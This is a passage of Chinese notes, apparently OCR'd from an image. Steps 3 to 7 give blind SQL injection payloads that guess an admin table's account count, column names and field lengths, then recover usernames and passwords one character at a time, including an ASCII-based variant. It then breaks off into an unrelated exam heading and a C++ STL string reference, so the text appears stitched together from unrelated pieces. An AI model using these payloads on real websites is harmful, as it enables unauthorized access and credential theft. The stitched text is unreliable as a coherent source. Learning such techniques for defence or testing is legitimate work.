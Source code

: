 3.猜帐号数目

如果遇到 0<返回正确页面、1<返回错误页面，说明帐号数目就是1个
```sql
and 0<(select count(*) from admin) 
and 1<(select count(*) from admin)
```

4.猜解字段名称，在len()括号里面加上我们想到的字段名称
```sql
and 1=(select count(*) from admin where len(*)>0)-- 
and 1=(select count(*) from admin where len(用户字段名称)>0) 
and 1=(select count(*) from admin where len(_blank>密码字段名称)>0)
```

5.猜解各个字段的长度，猜解长度就是把>0变换，直到返回正确页面为止
```sql
and 1=(select count(*) from admin where len(*)>0) 
and 1=(select count(*) from admin where len(name)>6) -- 错误 
and 1=(select count(*) from admin where len(name)>5) -- 正确 长度是6 
and 1=(select count(*) from admin where len(name)=6) -- 正确

and 1=(select count(*) from admin where len(password)>11) // 正确 
and 1=(select count(*) from admin where len(password)>12) // 错误 长度是12 
and 1=(select count(*) from admin where len(password)=12) // 正确
```

6.猜解字符 
```sql
and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位 
and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位 
```
就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了 

7.ASCII逐字解码法的应用

```sql
and (select count(*) from admin)<>0 --猜解表名
and (select count(列名) from 表名)<>0 --猜解列名
and (select len(列名) from 表名)>=1、>=2、>=3、>=4--猜解用户名的长度
and (select count(*)from 表名 where (asc(mid(列名,1,1))) between 30 and 130)<>0--猜解用户名
```

## 机试试题 Part 6(约90分)

### STL String

```cpp
#include <string>
using namespace std;

// 构造函数
string s;
string s(str);          // 从str中复制
string s(str, index);   // 部分复制[index,end]
string s(str, index, n);// 部分复制[index, index + n]
string s(c_str);        // 从C字符串复制
string s(c_str, n);     // 从C字符串部分复制[0,n]
string s(10, 'a');      // 10个'a'

// 长度
s.empty();              // 判断是否为空
s.size();
s.capacity();

// 插入删除
s.push_back('a');
s.insert();
```